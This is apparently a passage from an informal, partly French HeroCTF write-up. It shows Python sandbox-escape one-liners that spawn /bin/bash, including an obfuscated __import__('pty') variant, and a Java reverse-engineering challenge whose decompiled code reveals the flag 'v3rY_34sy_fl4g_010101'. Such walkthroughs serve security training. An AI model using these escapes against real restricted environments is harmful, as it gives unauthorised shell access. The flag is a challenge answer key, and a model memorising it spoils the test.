 Others Methode:
`
import pty
pty.spawn('/bin/bash')
` 
Or

`
import subprocess
subprocess.call("/bin/bash")
` 

Info :
*EOF:End Of File*



Other ....Others Methode 
Here the server administrator replace python interpreter by calculatrice

 `__import__('pty').spawn('/bin/bash'+chr(ord('h'))) ` 

Others....Others...Others God Python and Pyjail
See:*~/Vidéos/Hyd3-100Days/Ted_2.0/Security-Advanced/V? heroctf/HeroCTF_v1/Challenges/Pwn/Pyrate_4*

In Cyber training Security pwn in not obligent ok ?not a army , my arm is not really big and you and your arm is very big at mine bg 



VII-REVERSE
*JAVAHACK*

HI My first impression is THAT Reverse is so difficult

Here two (2) hint you are given 
hint 1 : http://www.javadecompilers.com/ 
hint 2 : https://github.com/java-decompiler/jd-gui (personnally i don't use this project)

When i used the first link i see a web site who allow upload a code (seen that this code is already compiled)
This site dislpay the code of java app after you have upload it from  the site
//This site shows Java application code after you download it from the site

When you observe good you will see the flag

`

import java.awt.Component;
import javax.swing.JOptionPane;

// 
// Decompiled by Procyon v0.5.36
// 

class JavHack1
{
    public static void main(final String[] array) {
        int i = 1;
        while (i != 0) {
            if (JOptionPane.showInputDialog("Enter the password :").equals("v3rY_34sy_fl4g_010101")) {
                i = 0;
                JOptionPane.showMessageDialog(null, "GG ! You can validate the challenge with this password");
            }
            else {
                JOptionPane.showMessageDialog(null, "Wrong flag !");
            }
        }
    }
}
/v3rY_34sy_fl4g_010101/
